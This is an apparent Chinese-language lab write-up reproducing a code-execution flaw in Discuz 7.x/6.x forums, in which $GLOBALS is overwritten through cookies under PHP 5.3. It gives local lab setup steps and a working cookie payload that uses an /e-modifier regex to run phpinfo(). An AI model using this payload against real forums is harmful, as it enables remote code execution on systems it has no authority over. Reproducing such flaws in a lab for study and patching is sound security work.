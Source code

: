 # Discuz 7.x/6.x 全局变量防御绕过导致代码执行

> 漏洞说明

由于php5.3.x版本里php.ini的设置里request_order默认值为GP，导致$\_REQUEST中不再包含$_COOKIE，我们通过在Cookie中传入$GLOBALS来覆盖全局变量，造成代码执行漏洞。



> 前提条件

版本：Discuz 7.X/6.X



> 利用工具



> 漏洞复现

启动靶场，访问http://192.168.40.77:8080/install/安装discuz，数据库地址db，数据库名discuz，账号密码root

![image-20221231131946531](../img/Discuz_7.X&6.X全局变量防御绕过导致代码执行/image-20221231131946531.png)

安装成功后找到一个帖子发送数据包，并在cookie中添加

```http
GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();
```

发送数据包，可以看到成功展示phpinfo页面

![image-20221231132858363](../img/Discuz_7.X&6.X全局变量防御绕过导致代码执行/image-20221231132858363.png)